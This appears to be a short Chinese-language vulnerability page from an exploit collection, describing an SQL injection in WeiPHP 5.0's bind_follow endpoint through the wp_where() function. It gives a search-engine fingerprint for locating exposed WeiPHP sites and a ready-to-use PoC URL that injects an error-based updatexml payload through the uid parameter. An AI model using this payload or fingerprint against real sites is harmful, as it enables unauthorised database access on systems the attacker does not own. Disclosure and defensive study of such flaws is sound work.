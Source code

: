 # WeiPHP5.0 bind_follow SQL注入漏洞

## 漏洞描述

Weiphp5.0 所有使用了 wp_where() 函数并且参数可控的SQL查询均受到影响，前台后台均存在注入。

## 漏洞影响

  <a-checkbox checked>Weiphp5.0</a-checkbox></br>

## 网络测绘

  <a-checkbox checked>app="WeiPHP"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1628497681576-0cd015d8-cfef-4dcc-9f5a-e51a95136802.png)

验证POC

```php
/public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=)%20and%20updatexml(1,concat(0x7e,md5(%271%27),0x7e),1)--+
```